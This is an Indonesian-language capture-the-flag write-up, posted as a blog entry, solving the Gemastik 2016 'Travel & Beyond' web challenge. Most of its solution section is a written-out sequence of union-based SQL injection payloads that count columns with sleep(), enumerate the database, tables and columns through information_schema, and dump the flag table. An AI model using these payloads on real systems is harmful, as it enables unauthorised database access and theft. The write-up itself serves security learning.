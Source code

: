 ```yaml
---
layout: post
title: "Writeup Gemastik 2016 : Travel & Beyond - 100"
description: "Writeup Gemastik 2016 Online Capture The Flag Qualification"
headline: 
modified: 2016-08-15
category: gemastik
tags: [gemastik,ctf]
imagefeature: /images/gemastik.png
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

![Travel & Beyond](/images/travel-beyond.png)


### Solusi :

Sesuai clue pada soal kita harus mencari cara untuk melakukan database dump. percobaan pertama kita mencoba melakukan
*SQL Injection* pada search, untuk memastikan SQL Injection kami menggunakan sleep(10) :

`x' union select sleep(10) from information_schema.tables where table_name like '%a#` < ERROR
`x' union select sleep(10),1 from information_schema.tables where table_name like '%a#` < ERROR.

... SNIP ....

`x' union select sleep(10),1,1,1,1 from information_schema.tables where table_name like '%a#` < SLEEP TEREKSEKUSI ( NORMAL )

berarti pada table yang sebelum union di select memiliki 5 kolom. memuncul kan nama database dengan query :

`x' union select 1,database(),1,1,1 from information_schema.tables where table_name like '%a#` < travel

Mencari nama table : 

`x'  union select 1,table_name,1,1,1 from information_schema.tables where table_schema like '%travel#` < destination

Mencari table lain :

`x'  union select 1,table_name,1,1,1 from information_schema.tables where table_schema like 'travel' and table_name not like 'destination#` < flag

Mencari kolom flag :

`x' union select 1,column_name,1,1,1 from information_schema.columns where table_name like '%flag#` < flag

Dump Flag : 

`x'  union select 1,flag,1,1,1 from flag where flag like 'GEMASTIK#`

![Travel Beyond Flag](/images/travel-beyond-flag.png)